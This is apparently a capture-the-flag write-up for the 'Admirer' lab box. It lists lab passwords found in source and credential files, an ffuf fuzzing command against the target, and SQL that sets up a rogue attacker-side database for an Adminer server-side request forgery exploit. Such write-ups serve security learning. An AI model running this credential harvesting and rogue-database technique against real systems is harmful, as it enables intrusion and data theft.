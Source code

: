 ### Database Credentials in index.php

```php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A\"d6b";
$dbname = "admirerdb";
```

Inside `w4ld0s_s3cr3t_d1r/credentials.txt`:

```
[Bank Account]
waldo.11
Ezy]m27}OREc$

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01
```

In `utility-scripts/db_admin.php`:

```php
$servername = "localhost";
$username = "waldo";
$password = "Wh3r3_1s_w4ld0?";
```

Content discovery on `utility-scripts`:

```bash
ffuf -u http://10.10.10.187/utility-scripts/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 500 -e .php
```

Found `adminer.php` (PHP Adminer, a DB management tool).

### Adminer Exploitation

* Tried known credentials, access denied.
* Found Server-Side Request Forgery exploit (`searchsploit adminer`).
* Used local database on attacker machine:

```sql
create database admirerdb;
create user 'waldo'@'%' identified by 'Wh3r3_1s_w4ld0?';
grant all privileges on admirerdb.* to 'waldo'@'%';
flush privileges;
```
